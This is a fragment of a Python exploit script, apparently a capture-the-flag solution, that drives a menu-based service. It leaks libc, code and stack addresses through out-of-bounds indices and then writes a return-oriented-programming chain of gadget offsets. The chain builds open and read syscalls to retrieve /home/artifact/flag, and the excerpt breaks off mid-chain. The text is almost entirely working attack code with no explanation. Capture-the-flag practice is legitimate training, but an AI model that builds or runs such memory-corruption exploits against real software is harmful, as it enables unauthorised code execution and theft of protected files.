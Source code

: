 ```python
    menu()
    return ret

def memo(num, inp):
    cmd(2)
    r.sendline(str(num))
    r.recvuntil('Give me your number:\n')
    r.sendline(str(inp))
    menu()

def end():
    cmd(3)

raw_input('#')

menu()

# leak libc adress
libc = int(show(203)) - 241 - 0x20300
print 'libc:', hex(libc)

# leak code adress
code = int(show(202)) - 0xbb0
print 'code:', hex(code)

# stack address index: 231
stack = int(show(205))
print 'stack:', hex(stack)

pop_rax = libc + 0x3a998
pop_rdi = libc + 0x1fd7a
pop_rsi = libc + 0x1fcbd
pop_rdx = libc + 0x1b92
pop_rcx = libc + 0x1a97b8
mov_rdi_rax_call_rcx = libc + 0x89ae9
syscall = libc + 0xbc765

# /home/artifact/flag
memo(0, 8241920905738938415)
memo(1, 7363231885958736244)
memo(2, 6775148)

# open
memo(203, pop_rdi)
memo(204, stack - 231*8)
memo(205, pop_rsi)
memo(206, 0)
memo(207, pop_rdx)
memo(208, 2)
memo(209, pop_rax)
memo(210, 2)
memo(211, syscall)

# read
memo(212, pop_rcx)
memo(213, pop_rax)
memo(214, mov_rdi_rax_call_rcx)
memo(215, pop_rax)
memo(216, 0)
memo(217, pop_rsi)
memo(218, stack - 80*8)
memo(219, pop_rdx)
memo(220, 100)
```